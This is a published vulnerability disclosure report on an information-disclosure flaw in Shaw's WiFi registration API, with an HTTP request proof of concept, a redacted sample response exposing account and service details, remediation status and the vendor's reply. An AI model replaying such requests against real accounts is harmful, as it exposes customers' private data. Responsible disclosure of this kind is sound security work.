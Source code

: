 ```yaml
---
layout: reports
permalink: /reports/6/
tagline: "On 10 August 2018 I discovered an Information Disclosure vulnerability on shaw.com"
image:
  feature: 
  hero: 
report-id: GWA-2018-006
---
```


## Summary

By sending a `GET` request to a specific API location it is possible to obtain a customer's account number in addition to registered device IDs and MAC Addresses of associated Shaw Go Wifi devices.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with that customer or by remotely logging into a @shaw.ca email associated with that customer.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

Request:
```http
GET /api/customer/account/ HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Accept: application/json
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 381
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"account_id":"03161234567","account_status":"active","device_quota":10,"url":"/accounts/03161234567","downlink_speed":"30","uplink_speed":"5","service_code":"830-137","service_type":"Residential","service_description":"INTERNET 150 PLUS","service_status":"active","quota_available":true,"devices":[],"account_number":"03161234567","response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._

## Recommended Actions

 - Implement proper access controls to prevent information disclosure.

## Remediation Status

At the time of publishing this report `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` from an IP associated with the customer now result in the response showing `401 Unauthorized`. However this access token can still be generated by logging in to a @shaw.ca email address associated with that customer.

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since this report.

## Response From Vendor

### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.

